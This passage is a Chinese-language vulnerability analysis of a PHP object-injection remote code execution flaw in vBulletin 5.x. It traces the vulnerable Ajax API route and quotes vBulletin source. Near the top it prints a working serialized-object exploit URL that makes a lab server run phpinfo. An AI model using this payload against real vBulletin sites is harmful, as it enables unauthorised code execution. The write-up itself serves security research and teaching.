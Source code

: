 # unserialize() 实战之 vBulletin 5.x.x 远程代码执行

**Author: RickGray (知道创宇404安全实验室)**

近日，vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用`unserialize()`对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用[原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)提供的 Payload 可以直接在受影响的站点上执行`phpinfo(1)`：

![](http://drops.javaweb.org/uploads/images/9a9dab0b95937138a5f7b79382fdf7ec1743a774.jpg)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

0x00 反序列化触发点跟踪
==============

* * *

虽然此次漏洞`unserialize()`函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

```
http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

```

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将`ajax/api/hook/decodeArguments`作为路由参数`$_REQUEST['routestring']`传递给地址路由处理过程。因其符合`ajax/api/[controller]/[method]`的 Ajax API 请求路由格式，会再调用`vB5_Frontend_ApplicationLight`实例中的`handleAjaxApi()`函数来进行相应的模块加载并调用处理函数：

```
protected function handleAjaxApi()
{
    $routeInfo = explode('/', $_REQUEST['routestring']);    

    if (count($routeInfo) < 4)
    {
        throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
    }
    $params = array_merge($_POST, $_GET);
    $this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}

```

请求的`ajax/api/hook/decodeArguments`会实例化`hook`类然后调用`decodeArguments()`函数，原文中所提及的触发点就在此处：

```
public function decodeArguments($arguments)
{
    if ($args = @unserialize($arguments))
    {
        $result = '';

        foreach ($args AS $varname => $value)
        {
            $result .= $varname;

```
